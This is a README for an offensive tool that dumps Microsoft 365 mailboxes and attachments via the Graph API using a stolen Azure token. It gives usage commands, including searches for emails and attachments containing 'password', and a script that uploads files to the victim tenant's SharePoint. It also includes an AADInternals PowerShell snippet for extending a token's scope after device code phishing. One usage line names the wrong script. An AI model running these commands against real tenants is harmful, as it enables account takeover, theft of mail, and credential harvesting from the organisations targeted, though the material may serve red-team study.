 # Graph-Email-Dumper
Script to dump emails through Microsoft Graph API. it also include another script to push a file on the Azure tenant.

# Usage graph_dump.py

This script dump emails and attachments

```
python3 graph_dump.py extended_azure_token_file_path (optional filter)
```
# Filter examples

```
'$search="body:password"'
'$search="attachment:password"'
'$search="attachment:password"'

python3 graph_dump.py extended_azure_token_file_path '$search="body:password"'
```

# Usage push_sharepoint.py 

This script can be used to host on file on an Azure tenant

```
python3 extract_email.py extended_azure_token_file_path file_to_upload_path remote_filename (optional -organization)
```

# Device code phishing extended scope

```
PS> install-module aadinternals
PS> import-module addinternals
PS> $t = Get-AADIntAccessTokenWithRefreshToken -clientid "d3590ed6-52b3-4102-aeff-aad2292ab01c" -resource "https://graph.microsoft.com" -tenantid "" -refreshtoken "" -savetocache 1 -includerefreshtoken 1
PS> Write-Output $t
```

# Credit
Mr.Un1k0d3r RingZer0 Team
